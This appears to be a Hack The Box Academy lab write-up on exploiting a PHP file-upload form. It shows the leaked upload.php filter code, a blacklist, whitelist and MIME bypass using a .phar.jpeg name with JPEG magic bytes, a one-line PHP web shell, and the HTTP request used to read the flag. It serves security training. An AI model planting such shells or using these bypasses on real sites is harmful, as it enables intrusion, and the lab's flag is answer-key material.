



#  Try to exploit the upload form to read the flag found at the root directory "/".
IP : 83.136.252.13:58188
- Try to fuzz for non-blacklisted extensions, and for allowed content-type headers. If you are unable to locate the uploaded files,
try to read the source code to find the uploads directory and the naming scheme.

We can see the can upload the image.
Fist we upload the payload xml for see the upload.php code:



we must  decode the in cyberchef:

```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}


```
For get the url u must to see the php code and get the date of the day:
/250411_shell...

After that we must to see how can we get the extension for the file using the intruder:
Create the file ./shell.phar.jpeg and with the tool monaspad paste the payload:

```sh
AAAA
<?php echo system($_GET["cmd"]);?>
```
After that we must to change the hex decimal for pass, 4 couple of digits:
FOr change the hex:
`FF D8 FF DB`

Now we can upload the the file shell.phar.jpeg


flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt
```js
GET /contact/user_feedback_submissions/250411_shell.phar.jpeg?cmd=cat%20../../../../../flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt HTTP/1.1
Host: 94.237.53.203:42898
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
Then we can get the cmd uploaded and then

Reponse:
HTB{m4573r1ng_upl04d_3xpl0174710n}
HTB{m4573r1ng_upl04d_3xpl0174710n}
https://academy.hackthebox.com/achievement/349590/136
